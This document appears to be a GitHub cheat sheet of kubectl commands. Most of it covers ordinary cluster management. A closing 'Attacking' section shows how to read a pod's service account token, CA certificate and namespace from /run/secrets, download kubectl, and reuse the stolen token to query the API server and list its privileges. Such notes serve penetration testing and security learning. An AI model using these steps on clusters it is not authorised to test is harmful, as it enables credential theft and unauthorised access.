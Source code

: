 # Kubernetes

## Remote

```kubectl --kubeconfig ~/.kube/config <command>```

Using a kubeconfig file to access a remote API and run commands

```curl https://kubernetes.site.com:6443/api```

Check for the existance of the kubernetes api secure port

*Other relevant [ports](https://github.com/freach/kubernetes-security-best-practice/blob/master/README.md) for interacting with kubernetes*

## Create

```kubectl create deployment <deployment_name> --image=<image_name>```

Create deployment

## Apply

```kubectl apply -f <file_name>.yml --dry-run```

Shows output for the deployment without actually running

```kubectl apply -f <file_name>.yml --server-dry-run```

Shows output for deployment by checking API (If deployment exists it will list changes)

## Diff

```kubectl diff -f <file_name>.yml```

Compare differences between current deployment and yml deployment

## Scale

```kubectl scale deployment/<deployment_name> --replicas 5```

Scaling to 5 replicas

## Expose

```kubectl expose deployment/<deployment_name> --port 8080```

Expose port inside Kubenetes cluster

```kubectl expose deployment/<deployment_name> --port 8080 --name <name> --type NodePort```

Expose port outside cluster (Used for Docker Desktop)

## Get

```kubectl get all```

List all Kubernetes services and resources

```kubectl get services```

List deployed services

```kubectl get namespaces```

List namespaces in your curent context

```kubectl get all --all-namespaces```

List all namespaces

## Exec

```kubectl exec -it <image_name> -- /bin/bash```

Drop into interactive bash shell inside pod

```kubectl exec <pod_name> -- <command>```

Execute single command inside pod

## Explain

```kubectl explain services.spec```

List information about services.spec (yaml spec)

## Delete

```kubectl delete deployment <deployment_name>```

Delete deployment

## Attacking

### Single pod service accounts

```mount | grep kube```

Searching for the serviceaccount folder (Default: /run/secrets/kubernetes.io/serviceaccount)

Important files:
* ca.crt
* namespace
* token (service account token)

```
env

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=nginx-6799fc88d8-2pgh2
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
KUBERNETES_SERVICE_HOST=10.96.0.1
KUBERNETES_SERVICE_PORT=443
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP_PROTO=tcp
NGINX_VERSION=1.19.6
NJS_VERSION=0.5.0
PKG_RELEASE=1~buster
HOME=/root

```

Search environment variables for api endpoints

```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

Downloading a copy of [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl/) (chmod u+x before running)

```
alias kubectl="<path_to_kubectl> --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://<api_server_ip>:<api_server_port>"
```

Setup kubectl command with discovered credentials from serviceaccount folder

```kubectl auth can-i --list```

List all privileges with current context



